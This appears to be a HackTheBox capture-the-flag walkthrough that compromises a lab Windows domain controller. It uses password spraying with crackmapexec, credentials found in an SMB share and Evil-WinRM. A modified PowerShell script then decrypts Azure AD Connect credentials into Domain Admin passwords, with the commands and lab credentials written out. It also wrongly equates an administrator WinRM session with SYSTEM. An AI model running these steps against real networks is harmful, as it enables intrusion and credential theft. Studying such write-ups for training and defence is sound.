


# Mounteverde — HackTheBox Walkthrough

**Platform:** HackTheBox
**Difficulty:** Medium
**OS:** Windows

---

## TL;DR

Password spraying an enumerated list of users reveals the password `SABatchJobs` for the `SABatchJobs` account → SMB enumeration as `SABatchJobs` unveils a user share containing credentials for `mhope` (`4n0therD4y@n0th3r$`) → We use Evil-WinRM to connect as `mhope` → Discovering `Azure AD Connect` installed on the server, we exploit a known misconfiguration that allows extracting plaintext credentials from the local SQL database to gain Domain Admin.

---

## Enumeration

Full nmap scan:

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 10.10.10.172
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 53 | DNS | Simple DNS Plus |
| 88 | Kerberos | Microsoft Windows Kerberos |
| 135 | RPC | Microsoft Windows RPC |
| 139 | NetBIOS | Microsoft Windows netbios-ssn |
| 389 | LDAP | Microsoft Windows AD LDAP (Domain: MEGABANK.LOCAL) |
| 445 | SMB | microsoft-ds |
| 464 | kpasswd | kpasswd5 |
| 593 | RPC over HTTP| Microsoft Windows RPC over HTTP 1.0 |
| 636 | LDAP (SSL)| tcpwrapped |
| 3268 | Global Cat.| Microsoft Windows AD LDAP |
| 3269 | Global Cat.| tcpwrapped |
| 5985 | WinRM | Microsoft HTTPAPI httpd 2.0 |

The target is a Windows Domain Controller for `MEGABANK.LOCAL`. 

---

## Exploitation — Password Spraying & SMB Enumeration

We check for anonymous SMB access. While we can authenticate anonymously (null session), we are denied access to list any shares. 

However, null sessions often still permit enumeration over RPC (`rpcclient -U "" 10.10.10.172`). We successfully enumerate a list of domain users:
- `mhope`
- `dgalanos`
- `roleary`
- `smorgan`
- `SABatchJobs`
- `svc-ata`
- `svc-bexec`
- `svc-netapp`

A common initial access vector in Active Directory environments is users setting their password to match their username. 

We use `crackmapexec` to perform a password spray attack against the SMB service, using the list of usernames as both the usernames and the passwords in our spray lists.

```bash
crackmapexec smb 10.10.10.172 -u users.txt -p users.txt
```

The spray attack yields a success: `SABatchJobs : SABatchJobs`. 

With these valid credentials, we enumerate the SMB shares again (`smbclient -L //10.10.10.172 -U SABatchJobs`). We find we have read access to the `users$` share.



We recursively download and explore the `users$` share and check the folders for each user. Inside `mhope`'s directory, we find a file (typically an XML configuration file or a text document) named `azure.xml` containing a plaintext password.

```text
mhope:4n0therD4y@n0th3r$
```

We verify the credentials by connecting over WinRM:

```bash
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

We now have remote command execution as the user `mhope`.

---

## Privilege Escalation — Azure AD Connect Abuse

Checking our local group memberships and system context, we notice a couple of things:
1. `mhope` is a member of the **Azure Admins** group.
2. The server is running **Azure AD Connect**, **Azure AD Sync**, and a local Microsoft SQL (MSSQL) server instance.



Azure AD Connect is used to synchronize on-premises Active Directory objects with Azure Active Directory. To perform synchronization, Azure AD Connect stores highly privileged AD credentials (frequently a Domain Admin equivalent account) in a local LocalDB SQL database (`ADSync`).

Because `mhope` is an Azure Admin, they have the required DB reading privileges to query this local SQL database. 

We find a well-documented technique by Adam Chester (xpn) for exploiting this exact scenario to decrypt the credentials:
- `https://blog.xpnsec.com/azuread-connect-for-redteam/`

We upload xpn's PowerShell Proof of Concept (`azuread_decrypt_msol.ps1`) to the target machine via WinRM. 

Upon executing the script, it throws an error on line 2, complaining about a connection failure to `(localdb)\.\ADSync`. This happens because standard LocalDB instances can behave uniquely under different service contexts or versions.

We must modify the script's SQL connection string to use standard localhost authentication instead of the LocalDB named pipe shortcut:

**Original line:**
```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
```

**Modified line:**
```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=localhost;Integrated Security=true;Initial Catalog=ADSync"
```

After saving the modified script, we execute it again:

```cmd
C:\windows\tasks> .\azuread_decrypt_msol.ps1
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

The script successfully connects to the SQL database, pulls the encrypted credential blob, leverages the machine keys to decrypt it, and outputs the plaintext Domain Admin credentials!

We authenticate to WinRM as the Administrator user:

```bash
evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
```

We are `NT AUTHORITY\SYSTEM`. **Root.** 🎉

---

## Key Takeaways

- **Password Hygiene:** "Username = Password" policies remain a surprisingly common misconfiguration for service accounts (`SABatchJobs`).
- **Azure AD Connect Databases:** If an attacker compromises a server running Azure AD Connect (or compromises a user in the `ADSyncAdmins` / `Azure Admins` groups), they can extract the plaintext Directory Synchronization account credentials. The sync account is inherently granted `Replicating Directory Changes` privileges, meaning compromising it is effectively identical to compromising the Domain Admin via a DCSync attack.

---

*Thanks for reading! Follow for more HackTheBox walkthrough content.*